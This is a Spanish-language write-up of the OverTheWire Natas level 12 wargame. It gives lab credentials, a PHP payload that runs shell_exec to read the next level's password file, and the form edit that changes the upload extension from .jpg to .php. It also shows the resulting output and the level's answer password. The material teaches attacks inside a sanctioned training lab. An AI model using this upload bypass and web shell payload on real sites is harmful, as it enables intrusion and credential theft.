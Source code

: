 ```yaml
---
title: Natas-12
published: true
---
```


```
Url del reto: http://natas12.natas.labs.overthewire.org/index.php
login:natas12
 pass:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```

En este reto, hay que subir una imagen.jpg. Podemos subir un fichero en php y ejecutar código de este. Creamos el siguiente código

```
<?php $output = shell_exec('cat /etc/natas_webpass/natas13'); var_dump($output); ?>
```

Si subimos el fichero php, no ejecutará el código php ya que el código fuente lo guardará en un formato jpg.
Para poder subir el fichero en php, modificamos en el formulario, el campo value.

```html

<body>
<h1>natas12</h1>
<div id="content">

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="7ww5l8io7z.jpg" /> <!-- modificamos la extension a 7ww5l8io7z.php -->
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

La salida al subir el fichero php:

```html
body>
<h1>natas12</h1>
<div id="content">
The file <a href="upload/7ww5l8io7z.php">upload/7ww5l8io7z.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Como podemos ver, ha subido el fichero en formato php, si hacemos clic en el enlace interpretará el fichero php.

```
string(33) "jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY " 
```

```    
natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

[Volver al archivo](archive)
